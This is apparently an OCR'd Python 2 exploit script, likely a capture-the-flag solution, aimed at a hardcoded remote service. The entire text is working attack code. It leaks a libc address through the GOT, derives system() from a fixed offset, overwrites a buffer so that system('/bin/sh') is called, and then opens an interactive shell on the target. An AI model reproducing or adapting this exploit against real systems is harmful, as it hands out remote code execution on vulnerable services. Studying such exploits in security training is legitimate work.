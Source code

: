 
```python
#!/usr/bin/python

import struct, time, re, telnetlib, socket

def p(x):
    return struct.pack("L", x)

# leak printf address in libc via GOT pointer
payload = ""
payload += "2\n"
payload += p(0x601020)  # printf@plt
payload += "\n"

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('188.40.18.73', 3313))

print s.recv(1025)
s.send(payload)
time.sleep(0.5)
data = s.recv(1000)

PRINTF = -1
print data
m = re.search(r'hex: (.*)', data)
if m:
    PRINTF = m.group(1)

print "[+] found printf: %x" % int(PRINTF, 16)
SYSTEM = int(PRINTF, 16) - 63664
print "[+] system at %x" % int(SYSTEM)

# spam system into buf
payload = ""
payload += "1\n"        
payload += p(SYSTEM)    # address of system() will be stored in buf
payload += p(SYSTEM)    # buf+8
payload += p(SYSTEM)    # buf+16
payload += "\n"

s.send(payload)
print s.recv(200)

payload = ""
payload += "7\n"        # use an address further into buf (parsers+7*16)
payload += "/bin/sh\n"  # because this will overwrite the first few bytes

s.send(payload)         # send payload, causing it to call system('/bin/sh')

t = telnetlib.Telnet()  # interact with spawned shell
t.sock = s
t.interact()
```
